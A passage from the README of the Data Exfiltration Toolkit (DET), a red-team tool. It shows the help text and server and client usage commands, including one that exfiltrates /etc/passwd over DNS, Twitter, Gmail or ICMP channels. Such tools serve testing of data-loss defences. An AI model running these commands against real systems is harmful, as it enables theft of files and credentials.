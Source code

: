 ```json
    "max_bytes_read": 400,
    "min_bytes_read": 300,
    "compression": 1
}
```

# Usage

## Help usage

```bash
python det.py -h
usage: det.py [-h] [-c CONFIG] [-f FILE] [-d FOLDER] [-p PLUGIN] [-e EXCLUDE]
              [-L | -Z]

Data Exfiltration Toolkit (@PaulWebSec)

optional arguments:
  -h, --help  show this help message and exit
  -c CONFIG   Configuration file (eg. '-c ./config-sample.json')
  -f FILE     File to exfiltrate (eg. '-f /etc/passwd')
  -d FOLDER   Folder to exfiltrate (eg. '-d /etc/')
  -p PLUGIN   Plugins to use (eg. '-p dns,twitter')
  -e EXCLUDE  Plugins to exclude (eg. '-e gmail,icmp')
  -L          Server mode
  -Z          Proxy mode
```

## Server-side: 

To load every plugin:

```bash
python det.py -L -c ./config.json
```

To load *only* twitter and gmail modules: 

```bash
python det.py -L -c ./config.json -p twitter,gmail
```

To load every plugin and exclude DNS: 

```bash
python det.py -L -c ./config.json -e dns
```

## Client-side:

To load every plugin: 

```bash
python det.py -c ./config.json -f /etc/passwd
```
